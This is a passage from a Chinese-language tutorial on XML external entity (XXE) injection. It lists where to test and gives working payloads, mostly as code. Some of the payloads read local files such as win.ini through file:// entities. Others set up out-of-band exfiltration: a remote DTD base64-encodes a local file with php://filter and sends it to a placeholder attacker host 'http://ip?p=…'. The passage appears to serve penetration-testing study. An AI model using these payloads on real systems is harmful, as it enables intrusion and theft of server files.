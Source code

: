 ### 2、发现

​	2.1、任何HTTP数据传输的地方都可以测试

​	2.2、EXCEL



## 三、利用方法

### 1、有回显注入

```xml
<!-- 外部实体调用file://读取本地文件 -->
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">]>
<foo>&xee;</foo>
```

```xml
<!-- 外部实体调用远程dtd文件 -->
Payload：
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://ip/1.dtd" >
%xxe;]>

远程1.dtd：
<!ENTITY evil SYSTEM "file:///c:/windows/win.ini" >
```

### 2、无回显注入

```xml
<!-- 思路 -->
VPS创建tdt文件，成功利用以后如果无报错，直接查看日志内容可看到base64编码后的数据
```

```xml
<!-- 1.dtd -->
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/win.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip?p=%file;'>">
```

```xml
<!-- Payload -->
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://ip/1.dtd">
%remote;%int;%send;
]>
```

### 3、核心要素

​	3.1、闭合标签
